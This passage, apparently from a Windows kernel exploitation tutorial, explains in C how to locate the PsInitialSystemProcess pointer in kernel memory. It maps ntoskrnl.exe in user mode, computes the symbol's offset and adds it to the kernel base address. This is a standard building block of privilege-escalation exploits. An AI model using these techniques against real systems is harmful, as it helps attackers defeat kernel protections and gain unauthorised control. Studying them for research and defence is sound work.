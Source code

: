To find the offset of *PsInitialSystemProcess*{: style="color: LightSalmon"}, first we need to map the kernel binary (ntoskrnl.exe) into our address space using the *LoadLibrary*{: style="color: LightGreen"} function. Next, we can use the *GetProcAddress*{: style="color: LightGreen"} function to obtain the user mode address of *PsInitialSystemProcess*{: style="color: LightSalmon"}. This gives us the exact location of the symbol within our user mode address space.  

By subtracting the base address of the mapped ntoskrnl.exe from the user mode address of *PsInitialSystemProcess*{: style="color: LightSalmon"}, we can calculate the offset of *PsInitialSystemProcess*{: style="color: LightSalmon"} inside the kernel when it is loaded in memory. This offset will remain the same for kernel-land.  

```
PsInitialSystemProcessOffset = PsInitialSystemProcessAddress - ntoskrnlBaseAddress
```

```c
DWORD GetPsInitialSystemProcessOffset() {
	HMODULE ntoskrnl = NULL;
	DWORD dwPsInitialSystemProcessOffset = 0;
	ULONG_PTR pPsInitialSystemProcess = 0;

	// value of ntoskrnl is the base address of the mapped ntoskrnl.exe in our process memory
	ntoskrnl = LoadLibraryA("ntoskrnl.exe");
	if (ntoskrnl == NULL) {
		PRINT_ERROR(L"[-] Couldn't load ntoskrnl.exe\n");
		return 0;
	}

	pPsInitialSystemProcess = (ULONG_PTR)GetProcAddress(ntoskrnl, "PsInitialSystemProcess");
	if (pPsInitialSystemProcess) {
		// substracting from the address of the symbol the base address gives us the offset
		dwPsInitialSystemProcessOffset = (DWORD)(pPsInitialSystemProcess - (ULONG_PTR)(ntoskrnl));
		FreeLibrary(ntoskrnl);
		return dwPsInitialSystemProcessOffset;
	}

	PRINT_ERROR(L"[-] Couldn't GetProcAddress of PsInitialSystemProcess\n");
	return 0;
}
```

Now, to obtain the kernel address of the *PsInitialSystemProcess*{: style="color: LightSalmon"} pointer, we can simply add the calculated offset to the kernel's base address in kernel memory (which we already got with *EnumDeviceDrivers*{: style="color: LightGreen"}). This allows us to precisely locate the *PsInitialSystemProcess*{: style="color: LightSalmon"} pointer within the kernel.  

Since we will often need to calculate addresses using offsets, it is helpful to create a simple function to streamline the process. Here is an example of such a function:  

```c
ULONG_PTR GetKernelAddress(ULONG_PTR KernelBase, DWORD Offset) {
	return KernelBase + Offset;
}
```
